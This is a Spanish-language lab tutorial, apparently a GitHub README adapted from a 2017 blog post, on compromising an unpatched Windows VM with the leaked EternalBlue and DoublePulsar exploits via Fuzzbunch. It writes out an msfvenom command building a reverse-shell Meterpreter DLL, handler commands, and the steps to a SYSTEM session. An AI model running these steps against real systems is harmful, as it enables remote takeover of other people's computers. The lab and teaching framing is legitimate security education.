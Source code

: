 # Explotando Eternalblue + Doublepulsar by Shadow Brokers

[FUENTE ORIGINAL](https://www.securityartwork.es/2017/04/21/shadow-brokers-explotando-eternalblue-doublepulsar/)

Hace no mucho tiempo Shadow Brokers había liberado una nueva hornada de exploits de la NSA. Por si esto fuera poco, en el github donde están los exploits también hay información sobre como atacar a los sistemas bancarios.

La gran mayoría de los exploits publicados hacen que comprometer un sistema Windows sea cosa de niños y casi como vemos en las películas, puesto que ente ellos se encuentran varios 0-day (ahora ya parcheados por Microsoft) que atacan al protocolo SMB en todas sus versiones.

De todos los exploits disponibles, el que más ha llamado la atención a la comunidad ha sido el combo del llamado Eternalblue + Doublepulsar. En este post vamos a explicar cómo desplegar un entorno de pruebas donde poder probar los exploits.

(N.d.E.: Sobra decir que la información se proporciona a título informativo y didáctico, con objeto de colaborar a mejorar el conocimiento de los técnicos en ciberseguridad. Los cibercriminales no necesitan que nadie les enseñe cómo utilizar los exploits, y a aquellos incautos scriptkiddies a los que se les ocurra jugar a ciberdelincuentes, en fin, mucha suerte en los juzgados).

Necesitaremos:

- Máquina Virtual Windows atacante.
- Maquina Vitrual Windows víctima.
- Equipo con Linux.

Una vez desplegadas las máquinas virtuales de Windows, el primer paso es preparar una de ellas como la atacante. En esta debemos satisfacer una serie de requisitos para poder utilizar el framework Fuzzbunch, que es desde donde lanzaremos los exploits. Para ello se debe descargar el repositorio del git donde se han publicado los exploits y herramientas.

      $ git clone  https://github.com/x0rz/EQGRP_Lost_in_Translation


Una vez clonado el repositorio en nuestro equipo, habrá que acceder al directorio Windows que está dentro de EQGRP_Lost_in_Translation y crear la carpeta listeningposts. Si no hacemos esto, al intentar ejecutar Fuzzbunch nos saltará un error avisando de que no encuentra el directorio.

Para poder ejecutar el framework correctamente y sin ningún error se necesita de una versión antigua de Python y de Pywin32:

- Python 2.6.6 de 32bits (se ha probado con Python 2.7 y no funciona).
- PyWin32-221 para Python 2.6.6.
- Jre-6u15-windows-i-586.

Una vez esté todo instalado vamos a pasar a la acción. Aquí utilizaremos powershell pero también se puede hacer mediante cmd.

## Uso del Framework Fuzzbunch

Desde el directorio EQGRP_Lost_in_Translation/windows ejecutamos Python fb.py para acceder al framework, e introducimos los siguientes parámetros:

- Default Default target IP Addres [] : IP de la víctima.
- Dafault Callback Addres [] : IP de nuestra máquina Windows.
- Use redirection[yes] : Establecer a ‘no’.
- Base Log directory [D:\logs] : Establecer la ruta para almacenar los logs.

Acto seguido hay que crear un proyecto. Una vez realizados estos pasos, veremos en el prompt fb

<p align="center">
<img src="../images/prompt_1.png"" title="Ilustración 1 Terminal del framework" ><div align="center">Ilustración 1 Terminal del framework.</div>

</p>

Para visualizar qué exploits hay disponibles podemos teclear **Show Exploits**:

<p align="center">

<img src="../images/prompt_2.png"" title="Ilustración 2 Exploits disponibles" >
<div align="center">Ilustración 2 Exploits disponibles.</div>

</p>

Como se ha comentado anteriormente, en este post se va a explicar Eternalblue (auque no salga en la lista, está disponible) junto con Doublepulsar. Muy por encima, Eternalblue se encarga de crear un backdoor y Doublepulsar inyecta una dll en el proceso del sistema que queramos.

## Eternalblue

Para hacer uso de Eternalblue hay que teclear use Eternalblue y acto seguido introducir la información solicitada por pantalla:

<p align="center">

<img src="../images/prompt_3.jpg" title="Ilustración 3 Configurando Eternalblue" >
<div align="center">Ilustración 3 Configurando Eternalblue.</div>

</p>

Si todo ha salido bien veremos el siguiente mensaje en el terminal:

<p align="center">

<img src="../images/prompt_4.png" title="Ilustración 4 Ejecución terminada con éxito" >
<div align="center">Ilustración 4 Ejecución terminada con éxito.</div>

</p>

## Doublepulsar

Con la backdor creada con Eternalblue, el próximo paso a realizar es inyectar una dll en un proceso del sistema comprometido haciendo uso de Doublepulsar.

Para generar la dll podemos hacer uso de msfvenom:

    $ msfvenom -a x64 -p windows/meterpreter/reverse_tcp lhost=IP lport=PUERTO -f dll -o raccoon64V2.dll

Y desde metasploit dejar un handler esperando a recibir una conexión desde la máquina comprometida:

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    [..]

Volviendo a Doublepulsar, como en el proceso anterior hay que introducir la información que va apareciendo en el terminal:

<p align="center">

<img src="../images/prompt_5.png" title="Ilustración 5 Configuración Doublepulsar" >
<div align="center">Ilustración 5 Configuración Doublepulsar.</div>

</p>

Si lo hemos hecho todo bien, tendremos en nuestro equipo local un meterpreter con privilegios SYSTEM sobre la máquina virtual víctima. **Con unos sencillos pasos y un par de clicks hemos llegado a comprometer un equipo conociendo solo su dirección IP**.

<p align="center">

<img src="../images/prompt_6.jpg" title="Ilustración 6 Sesión de meterpreter" >
<div align="center">Ilustración 6 Sesión de meterpreter.</div>

</p>

Por último y no menos importante, una vez tengamos la conexión con el meterpreter deberemos volver a ejecutar Doublepulsar y seleccionar la opción:

    4) Uninstall           Remove's backdoor from system

Para eliminar la backdoor, puesto que ya no la necesitamos.

<p align="center">

<img src="../images/prompt_7.png" title="Ilustración 7 Eliminación de la backdoor" >
<div align="center">Ilustración 7 Eliminación de la backdoor </div>

</p>

Como se ha podido observar, resulta alarmante la facilidad con la que se consigue comprometer un sistema Windows haciendo uso de estos exploits.

En estos momentos creo que todo el mundo se estará preguntando: ¿si esto es lo que se ha publicado, que más cosas tendrán los chicos buenos de la NSA?

Agradecimientos a la pagina https://www.securityartwork.es/2017/04/21/shadow-brokers-explotando-eternalblue-doublepulsar/ por la traduccion del paper: https://www.exploit-db.com/docs/41896.pdf
